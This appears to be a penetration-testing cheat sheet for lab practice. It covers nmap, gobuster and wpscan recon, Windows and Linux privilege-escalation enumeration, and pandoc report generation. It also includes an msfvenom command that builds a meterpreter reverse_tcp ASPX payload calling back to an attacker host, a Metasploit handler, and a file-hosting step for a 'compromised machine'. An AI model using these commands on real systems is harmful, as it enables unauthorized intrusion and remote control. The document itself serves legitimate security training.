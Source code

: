 # Scanning

#### Nmap
The following is a list of .nse scrips and cheat sheets for nmap
```
$ nmap -sC -sV -oA nmap/OUTPUT 10.10.10.125
```
The following syntax is used for vulnerability scans within nmap
```
$ nmap --script vuln -oA nmap/OUTPUT 10.10.10.125
$ nmap --script http-enum --script-args http-enum.fingerprintfile=./myfingerprints.txt -p80 <target>  
```
#### Gobuster
Directory busting with gobuster
```
$ sudo gobuster dir -u http://10.10.10.68 -w ~/red-team/wordlists/directory-list-2.3-medium.txt
```
#### WordPress
The following tool will scan a wordpress site for known vulnerabilities and configuration items:
```
$ sudo wpscan --url https://example.com --disable-tls-checks
```
#### Manual Tricks
If 443 is open check the certificate for alternative Virtual hosts that the cert may work on.
If you find that the certificate is good for multiple subdomains/virtual hosts add them to your host file with the following command.
```
$ vi /etc/hosts

127.0.0.1         localhost
127.0.0.2         kali
10.10.10.123      www.example.com
```
# Privilege Escalation

### Windows
First lets check system info with the folloing commands.
```
C:\Users\user\Desktop> systeminfo
```
msf exploit checker:
```
msf exploit > use post/multi/recon/local_exploit_suggester
msf exploit > set SESSION 1
msf exploit > run
```
### Linux
- [GTFOBins](https://gtfobins.github.io/) is a fantastic resource for priviledge escolation within Linux.
First steps to go from low-privilege user to root on a linux box.
```
joanna@openadmin:~$ sudo -l                     
Matching Defaults entries for joanna on openadmin:                              
  env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\
  :/bin\:/snap/bin 
  
User joanna may run the following commands on openadmin:                         
  (ALL) NOPASSWD: /bin/nano /opt/priv                                 
  joanna@openadmin:~$ 
```
Look at what the user can sudo and try to escalation from their. 
After testing what the user can do, look to see what is running as root.
```
joanna@openadmin:~$ find / -perm -u=s -type f 2>/dev/null   
/usr/lib/openssh/ssh-keysign     
/usr/lib/eject/dmcrypt-get-device 
/usr/lib/snapd/snap-confine       
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper    
/usr/lib/policykit-1/polkit-agent-helper-1    
/usr/bin/newgrp                              
/usr/bin/pkexec         
/usr/bin/newgidmap      
/usr/bin/sudo   
/usr/bin/passwd  
/usr/bin/newuidmap
/usr/bin/chsh      
/usr/bin/traceroute6.iputils 
/usr/bin/chfn           
/usr/bin/gpasswd      
/usr/bin/at  
/bin/ping      
/bin/umount     
/bin/su        
/bin/mount     
/bin/fusermount
joanna@openadmin:~$
```

We can try and get a root shell if a service is running as root, i.e. apache. Start a python http server to transfer files to the 
compromised machine. Note that this command will host files in your current directory, so make sure you copy all files before running
the python SimpleHTTPServer.
```
$ sudo python -m SimpleHTTPServer 8888
```
# Meterpreter
Use the following to created a meterpreter shell for reverse_tcp for Windows
```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=4444 -f aspx -o exploit.aspx

msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
```
# Pen Test Report
#### Requirements

- [Pandoc](https://pandoc.org/installing.html)
```
sudo apt-get install pandoc
```
- LaTeX (eg. [TeX Live](http://www.tug.org/texlive/)) in order to get `pdflatex` or `xelatex`
- [Eisvogel Pandoc LaTeX PDF Template](https://github.com/Wandmalfarbe/pandoc-latex-template#installation)
```
pandoc PENTEST_REPORT.md \
-o OSCP-OS-XXXXX-Lab-Report.pdf \
--from markdown+yaml_metadata_block+raw_html \
--template eisvogel \
--table-of-contents \
--toc-depth 6 \
--number-sections \
--top-level-division=chapter \
--highlight-style breezedark
```
